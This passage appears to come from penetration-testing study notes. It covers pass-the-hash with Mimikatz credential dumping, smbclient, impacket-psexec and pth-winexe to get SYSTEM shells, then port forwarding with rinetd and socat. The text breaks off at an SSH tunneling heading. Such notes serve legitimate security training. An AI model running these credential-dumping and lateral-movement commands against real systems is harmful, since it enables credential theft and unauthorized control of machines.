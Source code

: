  ```

Note: this attack works for `Administrator` user (except for certain conditions). Since Windows Vista, all Windows versions have [UAC remote restrictions](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) enabled by default.
- From Mimikatz, run `privilege::debug`, `token::elevate` and `lsadump::sam` to obtain the NTLM hash of Administrator
- Gain access to a SMB share with `smbclient \\\\<IP>\\<SMB-SHARE> -U Administrator --pw-nt-hash <Administrator-HASH>`
- Gain an interactive shell with `impacket-psexec -hashes <LMHash>:<NTHash> <username>@<ip> <command>`
  - This will always give a shell as `SYSTEM`, use `impacket-wmiexec` to obtain a shell as the user used for authentication
  - `<command>` is optional. If left blank, cmd.exe will be executed
  - See also: [impacket-scripts](https://www.kali.org/tools/impacket-scripts/) 

Other notes:
- ["Pass the Hash Attack"](https://www.netwrix.com/pass_the_hash_attack_explained.html)
- ["PsExec Explainer by Mark Russinovich"](https://www.itprotoday.com/windows-server/psexec-explainer-mark-russinovich)
- [pth-winexe](https://github.com/byt3bl33d3r/pth-toolkit)
  - `pth-winexe -U <domain/username>%<hash> //<targetIP> cmd.exe`
  - `-U` specifying the username and hash, along with the SMB share and the name of the command to execute
  

## Port Redirection and Tunneling

**Tools and notes**
- [rinetd](https://github.com/samhocevar/rinetd)
- [ProxyChains](https://github.com/haad/proxychains)
- [Plink.exe](https://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html)
- [HTTPTunnel](https://github.com/larsbrinkhoff/httptunnel)
- [PWK Notes: Tunneling and Pivoting](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)

### Port Forwarding

#### rinetd

1. Edit `/etc/rinetd.conf`, add `0.0.0.0 <Local-PORT> <IP> <DEST-PORT>`
   - This means that all traffic received on port `<Local-PORT>` of our machine, listening on all interfaces (`0.0.0.0`), regardless of destination address, will be forwarded to `<IP>:<DEST-PORT>`. 
2. Restart rinetd `sudo service rinetd restart` and confirm that the port is bound with `ss -antp | grep "80"`


#### Socat

- `socat -ddd TCP-LISTEN:<PORT>,fork TCP:<DEST-IP>:<DEST-PORT>`
  - The traffic received on port `<PORT>` will be forwarded to `<DEST-IP>:<DEST-PORT>`
- Example with SSH `socat TCP-LISTEN:2222,fork TCP:<IP>:22`
- Example with psql -h 192.168.50.63 -p 2345 -U postgres `socat -ddd TCP-LISTEN:2345,fork TCP:<IP>:5432`


### SSH Tunneling

See: ["SSH Tunneling: Examples, Command, Server Config"](https://www.ssh.com/academy/ssh/tunneling-example)

#### SSH Local Port Forwarding
	
  ```